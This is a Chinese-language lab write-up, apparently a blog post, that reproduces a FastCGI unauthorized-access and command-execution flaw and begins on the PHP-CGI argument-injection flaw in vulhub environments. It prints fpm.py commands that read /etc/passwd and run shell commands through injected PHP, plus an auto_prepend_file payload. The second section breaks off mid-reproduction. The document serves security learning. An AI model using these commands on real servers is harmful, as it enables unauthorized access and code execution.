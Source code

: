 ### （一） FastCGI 未授权访问、任意命令执行

**1、 漏洞简介及成因**

服务端使用 fastcgi 协议并对外网开放 9000 端口，可以构造 fastcgi 协议包内容，实现未授权访问服务端. php 文件以及执行任意命令。

**2、 漏洞复现**

使用 vulhub 实验环境，启动实验环境。

在攻击机使用命令 python fpm.py 192.168.237.136 /etc/passwd，观察返回结果。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38gibtbOUjtcSxJ6KbI2fgozoj0H1dibNoPqsBoqPzXlYiciaj756GErzlT5ZYazXr2ibZSdajo8WS5I9g/640?wx_fmt=jpeg)

由于访问非 \*.PHP 文件，所以返回结果 403。

使用命令执行一个默认存在的 php 文件。

```
python fpm.py 192.168.237.136 /usr/local/lib/php/PEAR.php
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38gibtbOUjtcSxJ6KbI2fgozPNXJJnlsymzxcrXBUInnYKBGUmy31ZmHtsu0HnjoRzxjC3cwlM9Mxg/640?wx_fmt=jpeg)

利用命令进行任意命令执行复现。

```
python fpm.py 192.168.139.129 /usr/local/lib/php/PEAR.php-c '<?php echo \`pwd\`; ?>'python fpm.py 192.168.139.129 /usr/local/lib/php/PEAR.php-c '<?php echo \`ifconfig\`; ?>'python fpm.py 192.168.139.129 /usr/local/lib/php/PEAR.php-c '<?php echo \`ls\`; ?>'
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38gibtbOUjtcSxJ6KbI2fgozZppDlaCU2jkV7plSd3dUP8SPLXGDlK1zUORVQN79H6MeicHjTIZ6HFw/640?wx_fmt=jpeg)

**3、 漏洞修复**

更改默认端口

### （二） PHPCGI 远程代码执行

**1、 漏洞简介及成因**

在 apache 调用 php 解释器解释. php 文件时，会将 url 参数传我给 php 解释器，如果在 url 后加传命令行开关（例如 - s、-d 、-c 或 - dauto\_prepend\_file%3d/etc/passwd+-n）等参数时，会导致源代码泄露和任意代码执行。

此漏洞影响 php-5.3.12 以前的版本，mod 方式、fpm 方式不受影响。

**2、 漏洞复现**

使用 vulhub 实验环境，启动环境。

访问 http://192.168.139.129:8080/index.php。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38gibtbOUjtcSxJ6KbI2fgozJTaYbgh89YLDOKMgUUSupxKQ95BgbZ9LFiakafd9AXHN365qaHDNbVA/640?wx_fmt=jpeg)

抓包，修改包。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38gibtbOUjtcSxJ6KbI2fgozxtjriaAoF1es5x2YsynKnwibYmAtwE8iaFQMr6j8D6M6vyYeoXhURQq3g/640?wx_fmt=jpeg)
